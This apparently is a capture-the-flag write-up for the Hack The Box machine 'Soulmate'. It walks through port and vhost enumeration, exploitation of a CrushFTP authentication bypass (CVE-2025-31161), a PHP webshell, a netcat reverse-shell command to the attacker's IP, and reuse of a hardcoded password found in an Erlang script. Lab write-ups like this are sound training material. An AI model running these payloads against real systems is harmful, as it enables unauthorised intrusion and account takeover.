




Write Up
Initial Port Scanning
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 8.9p1 Ubuntu 3ubuntu0.13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
| 256 3e:ea:45:4b:c5:d1:6d:6f:e2:d4:d1:3b:0a:3d:a9:4f (ECDSA)
|_ 256 64:cc:75:de:4a:e6:a5:b4:73:eb:3f:1b:cf:b4:e3:94 (ED25519)
80/tcp open http nginx 1.18.0 (Ubuntu)
|_http-title: Soulmate - Find Your Perfect Match
| http-methods:
|_ Supported Methods: GET HEAD POST OPTIONS
| http-cookie-flags:
| /:
| PHPSESSID:
|_ httponly flag not set
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
Findings:
- SSH (OpenSSH 8.9p1) on port 22
- HTTP (nginx 1.18.0) on port 80
- TTL of 63 indicates Linux System one hop way
DNS Configuration
echo "10.129.231.23 soulmate.htb" | sudo tee -a /etc/hosts

Gobuster Vhost
☠ hyperc /mnt/c/Users/cesar/HTB/Machines/Soulmate ➜ gobuster vhost --wordlist=/usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-5000.txt -u http://$domain -o Output_Gobuster_vhos.txt --append-domain
===============================================================
Gobuster v3.8
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url: http://soulmate.htb
[+] Method: GET
[+] Threads: 10
[+] Wordlist: /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-5000.txt
[+] User Agent: gobuster/3.8
[+] Timeout: 10s
[+] Append Domain: true
[+] Exclude Hostname Length: false
===============================================================
Starting gobuster in VHOST enumeration mode
===============================================================
ftp.soulmate.htb Status: 302 [Size: 0] [--> /WebInterface/login.html]
Let's add this to our hosts file as well:
echo "10.129.231.23 ftp.soulmate.htb" | sudo tee -a /etc/hosts
If we review the page's source code, we can find this:
/WebInterface/new-ui/sw.js?v=11.W.657-2025_03_08_07_52
This is CrushFTP WebInterface:
CrushFTP 11
Build W.657
Fecha Build: 2025_03_08_07_52
☠ hyperc /mnt/c/Users/cesar/HTB/Machines/Soulmate ➜ searchsploit crushftp
------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Exploit Title | Path
------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
CrushFTP 11.3.1 - Authentication Bypass | multiple/remote/52295.py
CrushFTP 7.2.0 - Multiple Vulnerabilities | multiple/webapps/36126.txt
CrushFTP < 11.1.0 - Directory Traversal | multiple/remote/52012.py
------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results

Exploiting CVE-2025-31161
☠ hyperc /mnt/c/Users/cesar/HTB/Machines/Soulmate/CVE-2025-31161 ➜ ls
CVE-2025-31161.sh LICENSE README.md requirements.txt venv
☠ hyperc /mnt/c/Users/cesar/HTB/Machines/Soulmate/CVE-2025-31161 ➜ ./CVE-2025-31161.sh -h
[!] Option no valid... check...
[+] Usage: ././CVE-2025-31161.sh --url <http://target.com> --port <PORT> --target-user <admin_user> --new-user <new_user> --new-password <password>
[?] Parameters description:
--url Target base URL (e.g., http://target)
--port Port where CrushFTP is running
--target-user Valid or invalid username (e.g., crushadmin)
--new-user Username to be created (e.g., Pwn3d)
--new-password Password for the new user
--help Show this help panel
[i] Example: bash ././CVE-2025-31161.sh --url http://target.com --port 80 --target-user crushadmin --new-user evilUser --new-password pass12345
☠ hyperc /mnt/c/Users/cesar/HTB/Machines/Soulmate/CVE-2025-31161 ➜ ./CVE-2025-31161.sh --url http://ftp.soulmate.htb/ --port 80 --target-user crushadmin --new-user cesar --new-password cesar
[*] Checking if the server is online... Waiting...
[*] Server is online. Starting preparation phase...
[*] Generating dynamic CrushAuth token...
[i] CrushAuth generated: 2754074705179_80KKbck3mNGkQzWVki7R7yA3kz8060
[*] Sending warm-up request to the server...
[*] Sending user creation payload for 'cesar'...
[>] User successfully created: cesar
[*] Credentials:
Username: cesar
Password: cesar

I review Admin, then User Manager:


Here we can see that the user ben has the webProd folder, and inside it are login.php, profile.php, etc. What's shown there s what's displayed in soulmate.htb
Generate a webshell.php
echo '<?php if(isset($_REQUEST["cmd"])){ echo "<pre>"; $cmd = $_REQUEST["cmd"]; system($cmd); echo "</pre>"; die; } ?>' > webshell.php
Then we change the ben's password.
 ]
]

Now i'm logging in to user ben

Here submit the webshell.php


Now in http://soulmate.htb/webshell.php

With Curl
☠ hyperc /mnt/c/Users/cesar/HTB/Machines/Soulmate ➜ curl "http://soulmate.htb/webshell.php?cmd=id"
<pre>uid=33(www-data) gid=33(www-data) groups=33(www-data)
</pre>
Rev Shell
Link: https://www.revshells.com/
☠ hyperc /mnt/c/Users/cesar/HTB/Machines/Soulmate ➜ curl "http://soulmate.htb/webshell.php?cmd=busybox%20nc%2010.10.14.38%20443%20-e%20%2Fbin%2Fsh"
Penelope 443
☠ hyperc /mnt/c/Users/cesar/HTB/Machines/Soulmate ➜ python3 /mnt/c/Users/cesar/HTB/penelope/penelope.py -p 443
[+] Listening for reverse shells on 0.0.0.0:443 → 127.0.0.1 • 10.10.14.38
➤ 🏠 Main Menu (m) 💀 Payloads (p) 🔄 Clear (Ctrl-L) 🚫 Quit (q/Ctrl-C)
[+] Got reverse shell from soulmate~10.129.231.23-Linux-x86_64 😍️ Assigned SessionID <1>
[+] Attempting to upgrade shell to PTY...
[+] Shell upgraded successfully using /usr/bin/python3! 💪
[+] Interacting with session [1] • Shell Type PTY • Menu key F12 ⇐
[+] Logging to /home/hyperc/.penelope/sessions/soulmate~10.129.231.23-Linux-x86_64/2026_02_20-17_57_13-649.log 📜
─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
www-data@soulmate:~/soulmate.htb/public$
User
www-data@soulmate:~/soulmate.htb$ ps aux | grep -i erlang
root 1144 0.0 1.6 2252024 66160 ? Ssl 20:58 0:03 /usr/local/lib/erlang_login/start.escript -B -- -root /usr/local/lib/erlang -bindir /usr/local/lib/erlang/erts-15.2.5/bin -progname erl -- -home /root -- -noshell -boot no_dot_erlang -sname ssh_runner -run escript start -- -- -kernel inet_dist_use_interface {127,0,0,1} -- -extra /usr/local/lib/erlang_login/start.escript
www-data 2896 0.0 0.0 6960 2068 pts/0 S+ 23:26 0:00 grep -i erlang
www-data@soulmate:~/soulmate.htb$
This is a critical encounter because network processes like root have elevated privileges.
Investigating Erlang Service
www-data@soulmate:~/soulmate.htb$ ls /usr/local/lib/erlang_login/
login.escript start.escript
www-data@soulmate:~/soulmate.htb$ cat /usr/local/lib/erlang_login/start.escript
#!/usr/bin/env escript
%%! -sname ssh_runner
main(_) ->
application:start(asn1),
application:start(crypto),
application:start(public_key),
application:start(ssh),
io:format("Starting SSH daemon with logging...~n"),
case ssh:daemon(2222, [
{ip, {127,0,0,1}},
{system_dir, "/etc/ssh"},
{user_dir_fun, fun(User) ->
Dir = filename:join("/home", User),
io:format("Resolving user_dir for ~p: ~s/.ssh~n", [User, Dir]),
filename:join(Dir, ".ssh")
end},
{connectfun, fun(User, PeerAddr, Method) ->
io:format("Auth success for user: ~p from ~p via ~p~n",
[User, PeerAddr, Method]),
true
end},
{failfun, fun(User, PeerAddr, Reason) ->
io:format("Auth failed for user: ~p from ~p, reason: ~p~n",
[User, PeerAddr, Reason]),
true
end},
{auth_methods, "publickey,password"},
{user_passwords, [{"ben", "HouseH0ldings998"}]},
{idle_time, infinity},
{max_channels, 10},
{max_sessions, 10},
{parallel_login, true}
]) of
{ok, _Pid} ->
io:format("SSH daemon running on port 2222. Press Ctrl+C to exit.~n");
{error, Reason} ->
io:format("Failed to start SSH daemon: ~p~n", [Reason])
end,
receive
stop -> ok
end.
www-data@soulmate:~/soulmate.htb$
Credential Discovery: Hardcoded password for user ben found in the Erlang script (start.escript)
ben:HouseH0ldings998
www-data@soulmate:~/soulmate.htb$ su - ben
Password: HouseH0ldings998
ben@soulmate:~$ whoami
ben
ben@soulmate:~$ id
uid=1000(ben) gid=1000(ben) groups=1000(ben)